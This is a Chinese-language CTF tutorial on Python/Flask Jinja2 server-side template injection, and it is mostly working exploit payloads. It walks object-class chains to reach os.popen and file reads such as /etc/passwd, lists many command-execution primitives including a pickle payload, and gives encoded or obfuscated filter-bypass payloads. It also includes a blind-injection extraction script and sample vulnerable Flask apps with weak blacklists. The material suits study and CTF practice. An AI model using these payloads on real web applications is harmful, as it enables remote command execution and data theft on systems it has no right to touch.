


前言 有关SSTI的一些知识 https://www.cnblogs.com/bmjoker/p/13508538.html
SSTI (Server-Side Template Injection)，即服务端模板注入攻击，通过与服务端模板的输入输出交互，在过滤不严格的情况下，构造恶意输入数据，从而达到读取文件或者getshell的目的。
SSTI属于沙箱逃逸的一种 , 关于python沙箱逃逸的一些姿势 https://xz.aliyun.com/t/52#toc-0
CTF里面主要是python的模板注入,本文主要探究的也是python环境下的
python 2.x/3.x Flask( Jinja2 )
基础知识 __globals__ : 使用方式是 函数名.__globals__，返回一个当前空间下能使用的模块，方法和变量的字典
1 2 3 4 5 6 7 8 9 import osvar = 2333 def fun (): pass class test : def __init__ (self ): pass print (test.__init__.__globals__)
返回的模块包括了内置模块和通过import导入的模块

有时还可以用 func_global 代替
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals['linecache'].__dict__['os'].__dict__['system']('ls')
与继承,类等有关的
__class__ : 返回一个实例所属的类
__subclasses__() : 返回一个类的子类，(列表形式)
__bases__: 返回一个类直接 所继承的类（元组形式)
__base_: 返回直接基类 , 只有一个
__mro__ : 会返回一个类的调用顺序,也就是所有继承链上的类(包括最顶层) (元组形式)
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 class base1 : pass class base2 : pass class kid1 (base1,base2 ): pass class kid2 (kid1 ): pass class kid3 (base1 ): pass obj = new kid2 print(obj.__class__) print(kid1.__subclasses__()) print(base1.__subclasses__()) print(kid2.__bases__) print(kid1.__bases__) print(kid1.__base__) print(kid1.__mro__) print(kid2.__mro__)
__builtin__ && __builtins__ :
__builtin__是一个python的内置模块(<module '__builtin__' (built-in)>) 里面包括了python中可以直接运行一些函数，例如int(),list()等等
dir(__builtins__) / dir('builtin') / dir('builtins')
二者区别:
1、在主模块main中，__builtins__是对内建模块__builtin__本身的引用，即__builtins__完全等价于__builtin__，二者完全是一个东西，不分彼此。
2、非主模块main中，__builtins__仅是对__builtin__.__dict__的引用，而非__builtin__本身
__dict__
攻击思路 利用继承链进行攻击,主要利用object类和内置类
object基类的利用
可以利用直接object基类下的子类,也可以利用子类下面的方法等
找到object类
随便找一个内置类对象用__class__拿到他所对应的类
用__bases__拿到基类（<class 'object'>）
利用其object基类的子类
用__subclasses__()拿到子类列表
在子类列表中直接寻找可以利用的类
读取文件 读取文件利用的是object子类的<type 'file'>类
找<type 'file'>的位置,可以用下面的脚本
1 2 3 4 5 6 search = 'file' num = 0 for i in ().__class__.__base__.__subclasses__(): if search in str (i): print num num += 1
<type 'file'>在第40位 , ().__class__.__bases__[0].__subclasses__()[40]
用dir来看看内置的方法 dir(().__class__.__bases__[0].__subclasses__()[40])
1 ['__class__' , '__delattr__' , '__doc__' , '__enter__' , '__exit__' , '__format__' , '__getattribute__' , '__hash__' , '__init__' , '__iter__' , '__new__' , '__reduce__' , '__reduce_ex__' , '__repr__' , '__setattr__' , '__sizeof__' , '__str__' , '__subclasshook__' , 'close' , 'closed' , 'encoding' , 'errors' , 'fileno' , 'flush' , 'isatty' , 'mode' , 'name' , 'newlines' , 'next' , 'read' , 'readinto' , 'readline' , 'readlines' , 'seek' , 'softspace' , 'tell' , 'truncate' , 'write' , 'writelines' , 'xreadlines' ]
存在read,readline,readlines,write等方法,可以利用这些方法进行读写文件
读文件 : ().__class__.__base__.__subclasses__()[40]('filename').readlines()
写文件: ().__class__.__base__.__subclasses__()[40]('路径+文件名').write('内容')
这种方法只能在py2下使用,py3已经移除了<type 'file'>
执行命令 执行命令是利用子类的一些方法
可以利用XX.__init__.globals__ 更详细的查看这个类的属性方法等
用下面的脚本遍历找到我们想利用的一些方法
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 searchlist = ['os' ,'eval' ,'commands' ,'subprocess' ,'platform' ,'timeit' ,'importlib' ] for search in searchlist num = -1 for i in ().__class__.__bases__[0 ].__subclasses__(): num += 1 try : if search in i.__init__.__globals__.keys(): print(i, num) except : pass """ py2.x (py3.x下可利用的模块更多) (<lass 'site._Printer'>, 72, 'os') (<class 'site.Quitter'>, 77, 'os') """
构造:
1 2 3 ().__class__.__mro__[1 ].__subclasses__()[77 ].__init__.__globals__['os' ].system('whoami' ) ().__class__.__mro__[1 ].__subclasses__()[72 ].__init__.__globals__['os' ].system('whoami' ) ().__class__.__mro__[1 ].__subclasses__()[72 ].__init__.__globals__['os' ].popen('whoami' ).read()
还有一些比较特殊的类和命令执行方式 warning相关的
主要有两个 <class 'warnings.WarningMessage'>和<class 'warnings.catch_warnings'>
分别在().__class__.__mro__[1].__subclasses__()[59]和().__class__.__mro__[1].__subclasses__()[60]
再从linecache寻找可以利用的模块
().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['linecache'].__dict__
在linecache的__dict__里面可以找到一些可以利用的模块比如os模块
利用os模块里面的system方法
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals['linecache'].__dict__['os'].__dict__['system']('ls')
内置类的利用 主要是__builtins__
找到__builtins__位置
1 2 3 4 5 6 7 8 9 search = '__builtins__' num = -1 for i in ().__class__.__bases__[0 ].__subclasses__(): num += 1 try : if search in i.__init__.__globals__.keys(): print(i, num) except : pass

().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']会返回 dict 类型,需要找到可以利用的函数
1 2 3 4 5 6 7 8 9 10 11 12 13 14 search = ['os' ,'file' ,'eval' ,'system' ,] num = -1 for i in ().__class__.__bases__[0 ].__subclasses__()[59 ].__init__.__globals__['__builtins__' ].keys(): num += 1 try : if i in search: print(i, num) except : pass ''' ('file', 114) ('eval', 135) '''
1 2 3 ().__class__.__bases__[0 ].__subclasses__()[59 ].__init__.__globals__['__builtins__' ]['eval' ]("__import__('os').system('whoami')" ) ().__class__.__bases__[0 ].__subclasses__()[59 ].__init__.__globals__['__builtins__' ]['file' ]('/etc/passwd' ).read()
攻击思路扩展 命令执行方式的扩展
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 os.system('whoami' ) os.popen('whoami' ).read() commands.getoutput('whoami' ) commands.getstatusoutput('whoami' ) subprocess.call('whoami' , shell=True ) subprocess.check_call('whoami' , shell=True ) subprocess.check_output('whoami' , shell=True ) subprocess.Popen('whoami' , shell=True ) platform.popen('whoami' ).read() timeit.timeit("__import__('os').system('whoami')" , number=1 ) importlib.import_module('os' ).system('whoami' ) importlib.__import__ ('os' ).system('whoami' ) pickle.loads(b"cos\nsystem\n(S'whoami'\ntR." ) eval ("__import__('os').system('whoami')" )exec("__import__('os').system('whoami')" ) exec(compile ("__import__('os').system('whoami')" , '' , 'exec' )) bdb.os.system("whoami" ) cgi.os.system("whoami" ) pty.spawn('ls' ) pty.os.system('ls' )
文件操作姿势扩展
open('flag.txt').read()
1 2 file('1.txt' ).read() types.FileType('1.txt' ).read()
commands.getoutput('flag')
基类获取思路扩展
1 2 3 4 5 '' .__class__.__mro__[2 ]{}.__class__.__bases__[0 ] ().__class__.__bases__[0 ] [].__class__.__bases__[0 ] request.__class__.__mro__[8 ]
针对Flask还可以从config等寻找可利用模块
1 2 3 4 5 6 {{ config.__class__.__init__.__globals__['os' ].popen('ls' ).read() }} self.__class__.__bases__ get_flashed_messages.__globals__ url_for.__globals__ lipsum.__globals__ x.__init__.__globals__
Bypass 下面都是我本地测试过的一些姿势(windows+Flask+python2.x)
先列出一些常见payload,根据环境不同可能还会有差别
利用os.system执行命令返回的只有0/1 所以这里用popen
1 2 3 4 {{ config.__class__.__init__.__globals__['os' ].popen('flag' ).read() }} {{().__class__.__bases__[0 ].__subclasses__()[59 ].__init__.func_globals['linecache' ].__dict__['os' ].__dict__['popen' ]('type flag' ).read()}} ().__class__.__base__.__subclasses__()[40 ]('flag' ).readlines() {{().__class__.__mro__[1 ].__subclasses__()[72 ].__init__.__globals__['os' ].popen('type flag' ).read() }}
测试代码
1 2 3 4 5 6 7 8 9 10 11 12 from flask import Flask, render_template_string, requestapp = Flask(__name__) @app.route('/' , methods=['GET' , 'POST' ] def index (): blacklist = ['class' ] name = request.args.get('name' ) for i in blacklist: if i in name.lower(): return 'sb hacker!' return render_template_string(name) if __name__ == '__main__' : app.run(debug=True )
过滤 . 标准的python语法使用点.外，还可以使用中括号[]来访问变量的属性
1 {{config['__class__' ]['__init__' ]['__globals__' ]['os' ]['popen' ]('type flag' )['read' ]()}}
过滤 _ 用request['args']或者 request['values']或者request['cookies']绕过
https://blog.csdn.net/u011146423/article/details/88191225
1 {{ ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('flag').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__
或者
1 2 3 {{ '' [request.cookies.class ][request.cookies.mro][2 ][request.cookies.subclasses]()[40 ]('flag' ).read() }} cookie: subclasses=__subclasses__;class=__class__;mro=__mro__
tips 传多个cookie用;分割
或者利用模板过滤器format
1 config["%c%c%c%c%c%c%c%c%c" |format (95 ,95 ,99 ,108 ,97 ,115 ,115 ,95 ,95 ) ]['%c%c%c%c%c%c%c%c' |format (95 ,95 ,105 ,110 ,105 ,116 ,95 ,95 )]['%c%c%c%c%c%c%c%c%c%c%c' |format (95 ,95 ,103 ,108 ,111 ,98 ,97 ,108 ,115 ,95 ,95 )]['os' ].popen('whoami' ).read()
过滤 [] 用pop()
1 2 3 4 5 pop(key[,default]) 参数 key: 要删除的键值 default: 如果没有 key，返回 default 值 删除字典给定键 key 所对应的值，返回值为被删除的值。key值必须给出。 否则，返回default值。
但是由于pop会删除这里面的键,不方便测试,所以不建议用
1 {{ config.__class__.__init__.__globals__.pop('os' ).popen('whoami' ).read() }}
别的替代: get 和setdefault
1 2 3 4 5 dict .get(key, default=None )返回指定键的值，如果值不在字典中返回default值 dict .setdefault(key, default=None )和get()类似, 但如果键不存在于字典中，将会添加键并将值设为default
1 2 {{ config.__class__.__init__.__globals__.setdefault('os' ).popen('whoami' ).read() }} {{ config.__class__.__init__.__globals__.get('os' ).popen('whoami' ).read() }}
用__getitem__
1 {{ config.__class__.__init__.__globals__.__getitem__('os' ).popen('whoami' ).read() }}
过滤 ‘ 还是利用 request.args
1 2 3 {{ config.__class__.__init__.__globals__[request.cookies.os].popen(request.cookies.command).read() }} cookie: os=os;command=whoami
过滤 {{ / }} 还可以用 {%%}
1 name={%print(config.__class__.__init__.__globals__['os' ].popen('type flag' ).read())%}
或者类似于盲注的一种方式
1 {% if config.__class__.__init__.__globals__['os' ].popen('type flag' ).read()[0 :1 ]=='f' %}1 {% endif %}
示例:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 from flask import Flask, render_template_string, requestapp = Flask(__name__) @app.route('/' , methods=['GET' , 'POST' ] def index (): blacklist = ["{{" ,"print" ] name = request.args.get('name' ) for i in blacklist: if i in name.lower(): return 'sb hacker!' return render_template_string(name) if __name__ == '__main__' : app.run(debug=True )
盲注脚本:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 import requestsurl = 'http://127.0.0.1:5000/' payload = "?name={% if config.__class__.__init__.__globals__['os'].popen('type flag').read()[0:1]=='f' %}1{% endif %}" str1 = "?name={% if config.__class__.__init__.__globals__['os'].popen('type flag').read()" str2 = "%}1{% endif %}" flag = ' ' i = -1 while True : esp = 128 ebp = 32 mid = 0 i = i + 1 if flag[-1 ] == '}' : break while True : mid = int ((esp+ebp)/2 ) payload = str1 + f"[{i} :{i+1 } ]>'{chr (mid)} '" + str2 res = requests.get(url=url+payload) if '1' in res.text: ebp = mid + 1 else : esp = mid if mid == int ((esp+ebp)/2 ): flag = flag + chr (mid) print(flag) break
过滤关键词 过滤class 下面两个是等价的(调用对象)
1 2 "" .__class__"" .__getattribute__("__class__" )
可以利用反转字符和拼接字符
"cla"+"ss" 和"__ssalc__"[::-1]或者"cla""ss"
1 2 3 {{ config["__cla" "ss__" ].__init__.__globals__['os' ].popen('whoami' ).read() }} {{config.__getattribute__("__cla" "ss__" ).__init__.__globals__['os' ].popen('whoami' ).read()}} {{config.__getattribute__("__ssalc__" [::-1 ]).__init__.__globals__['os' ].popen('whoami' ).read()}}
ascii转换 + 格式化字符串
P3rh4ps https://xz.aliyun.com/t/7519
1 2 3 4 "{0:c}" .format (97 )='a' "{0:c}{1:c}{2:c}{3:c}{4:c}{5:c}{6:c}{7:c}{8:c}" .format (95 ,95 ,99 ,108 ,97 ,115 ,115 ,95 ,95 )='__class__' {{ config["{0:c}{1:c}{2:c}{3:c}{4:c}{5:c}{6:c}{7:c}{8:c}" .format (95 ,95 ,99 ,108 ,97 ,115 ,115 ,95 ,95 )].__init__.__globals__['os' ].popen('whoami' ).read() }}
编码绕过
1 2 3 4 5 6 7 8 "__class__" =="\x5f\x5fclass\x5f\x5f" =="\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f" 对于python2的话，还可以利用base64进行绕过 "__class__" ==("X19jbGFzc19f" ).decode("base64" ){{ config["\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f" ].__init__.__globals__['os' ].popen('whoami' ).read() }} {{ config[("X19jbGFzc19f" ).decode("base64" )].__init__.__globals__['os' ].popen('whoami' ).read() }}
利用chr函数
因为我们没法直接使用chr函数，所以需要通过__builtins__找到他
1 2 {% set chr =url_for.__globals__['__builtins__' ].chr %} {{config[chr (95 )%2bchr(95 )%2bchr(99 )%2bchr(108 )%2bchr(97 )%2bchr(115 )%2bchr(115 )%2bchr(95 )%2bchr(95 )].__init__.__globals__['os' ].popen('whoami' ).read()}}
获取内置方法:以chr()为例
1 2 3 4 5 "" .__class__.__base__.__subclasses__()[x].__init__.__globals__['__builtins__' ].chr get_flashed_messages.__globals__['__builtins__' ].chr url_for.__globals__['__builtins__' ].chr lipsum.__globals__['__builtins__' ].chr x.__init__.__globals__['__builtins__' ].chr (x为任意值)
在jinja2里面可以利用~进行拼接
1 2 {%set a='__cla' %}{%set b='ss__' %} {{config[a~b].__init__.__globals__['os' ].popen('whoami' ).read() }}
大小写转换
1 {{config["__CLASS__" .lower()].__init__.__globals__['os' ].popen('whoami' ).read() }}
利用模板过滤器format
1 {{config["%c%c%c%c%c%c%c%c%c" |format (95 ,95 ,99 ,108 ,97 ,115 ,115 ,95 ,95 ) ].__init__.__globals__['os' ].popen('whoami' ).read() }}
过滤器join ,lower 还有 replace reverse
1 2 3 4 {{config[('__clas' ,'s__' )|join].__init__.__globals__['os' ].popen('whoami' ).read() }} {{config["__CLASS__" |lower].__init__.__globals__['os' ].popen('whoami' ).read() }} {{config["__ssalc__" |reverse].__init__.__globals__['os' ].popen('whoami' ).read() }} {{config["__claee__" |replace("ee" ,"ss" )].__init__.__globals__['os' ].popen('whoami' ).read() }}
string + select 组合
1 2 3 4 5 6 7 8 9 ().__class__ => <class 'tuple'> (().__class__|string)[0] => < ()|select|string => <generator object select_or_reject at 0x0000022717FF33C0> (()|select|string)[24] => _ (()|select|string)[15] => c (()|select|string)[20] => l (()|select|string)[6] => a (()|select|string)[18] => s
模板过滤器妙用 1 blacklist = ['class' , 'attr' , 'mro' , 'base' ,'request' , 'session' , '+' , 'add' , 'chr' , 'ord' , 'redirect' , 'url_for' , 'config' , 'builtins' , 'get_flashed_messages' , 'get' , 'subclasses' , 'form' , 'cookies' , 'headers' , '[' , ']' , '\'' , '"' , '{}' ]
下面来自y1ng师傅
https://www.gem-love.com/ctf/2598.html
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 {% set xhx = (({ }|select()|string()|list ()).pop(24 )|string())%} {% set spa = ((app.__doc__|list ()).pop(102 )|string())%} {% set pt = ((app.__doc__|list ()).pop(320 )|string())%} {% set yin = ((app.__doc__|list ()).pop(337 )|string())%} {% set left = ((app.__doc__|list ()).pop(264 )|string())%} {% set right = ((app.__doc__|list ()).pop(286 )|string())%} {% set slas = (y1ng.__init__.__globals__.__repr__()|list ()).pop(349 )%} {% set bu = dict (buil=aa,tins=dd)|join() %} {% set im = dict (imp=aa,ort=dd)|join() %} {% set sy = dict (po=aa,pen=dd)|join() %} {% set os = dict (o=aa,s=dd)|join() %} {% set ca = dict (ca=aa,t=dd)|join() %} {% set flg = dict (fl=aa,ag=dd)|join() %} {% set ev = dict (ev=aa,al=dd)|join() %} {% set red = dict (re=aa,ad=dd)|join()%} {% set bul = xhx*2 ~bu~xhx*2 %} {% set pld = xhx*2 ~im~xhx*2 ~left~yin~os~yin~right~pt~sy~left~yin~ca~spa~slas~flg~yin~right~pt~red~left~right %} {% for f,v in y1ng.__init__.__globals__.items() %} {% if f == bul %} {% for a,b in v.items() %} {% if a == ev %} {{b(pld)}} {% endif %} {% endfor %} {% endif %} {% endfor %}
过滤 . _ 和 [] 利用模板中的过滤器
attr
Get an attribute of an object.
1 2 3 "" |attr("__class__" )相当于 "" .__class__
1 2 3 {{ config.__class__.__init__.__globals__['os' ].popen('flag' ).read() }} => {{ config|attr("__class__" ).__init__.__globals__['os' ].popen('flag' ).read() }}
1 2 3 4 5 ().__class__.__base__.__subclasses__()[59 ].__init__.__globals__['__builtins__' ]['eval' ]('__import__("os").popen("whoami").read()' ) => {{()|attr('__class__' )|attr('__base__' )|attr('__subclasses__' )()|attr('__getitem__' )(59 )|attr('__init__' )|attr('__globals__' )|attr('__getitem__' )('__builtins__' )|attr('__getitem__' )('eval' )('__import__("os").popen("whoami").read()' )}} => {{()|attr('\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f' )|attr('\x5f\x5f\x62\x61\x73\x65\x5f\x5f' )|attr('\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f' )()|attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f' )(59 )|attr('\x5f\x5f\x69\x6e\x69\x74\x5f\x5f' )|attr('\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f' )|attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f' )('\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f' )|attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f' )('\x65\x76\x61\x6c' )('\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x22\x6f\x73\x22\x29\x2e\x70\x6f\x70\x65\x6e\x28\x22\x77\x68\x6f\x61\x6d\x69\x22\x29\x2e\x72\x65\x61\x64\x28\x29' )}}
字符转换
1 2 3 str = 'eval' for i in str : print(hex (ord (i)).replace('0x' , '\\x' ), end='' )
参考 https://xz.aliyun.com/t/2308
https://blog.csdn.net/miuzzx/article/details/110220425
https://lazzzaro.github.io/
https://www.gem-love.com/ctf/2598.html